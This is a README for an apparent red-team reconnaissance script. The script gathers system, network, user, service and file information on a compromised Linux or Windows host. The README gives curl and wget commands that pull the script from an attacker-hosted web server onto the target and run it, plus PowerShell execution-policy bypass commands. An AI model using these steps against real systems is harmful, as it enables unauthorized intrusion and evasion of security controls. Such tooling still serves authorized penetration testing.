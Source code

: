 # Internal Reconnaissance Phase

An internal investigation is carried out to gain knowledge about the compromised system. The aim is to obtain information that may be of interest for further action. System-specific tools are often used for this purpose.

This script reveals various information ([see Checks](#checks)) of a Linux system that may be useful in Internal Reconnaissance. For windows systems there is also a powershell script available. Check the [Windows](#windows) part for more information.

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
sh internal-recon.sh -w
# Target
curl -LJO <Host>:8000/internal-recon.sh #or
curl <Host>:8000/internal-recon.sh > internal-recon.sh #or
wget <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

### Parameters

```
sh internal-recon.sh -h

Usage: internal-recon.sh [options]

Options:
-h    Show this help message
-w    Serves an local web server for transferring files

Output:
-c    No colours. Without colours, the output can probably be read better
-q    Quiet. No banner and no advisory displayed
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Windows

This powershell script is intended to serve as a template and is far from a finished script. 
It does simple internal recon.

### Usage

From github:  
Download powershell script from github and run it:
```
.\internal-recon.ps1
```
Local network:  
Start webserver with -w
```
# Host
sh internal-recon.sh -w
```
Download script from `http://<Host>:8000/` an run it:
```
.\internal-recon.ps1
```

## Results

Results saved to files in current directory and printed to terminal.

### Execution Policy Bypass

If there are problems with the Execution Policy on Windows, try:
```
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# or
Get-Content .\internal-recon.ps1 | PowerShell.exe -noprofile -
```
or check https://gist.github.com/adithyan-ak/b5d0f2f98784e55f6edee248c85b4c5f for possible bypass commands.

-----

## Additional Information

### Search files and directories in Linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```
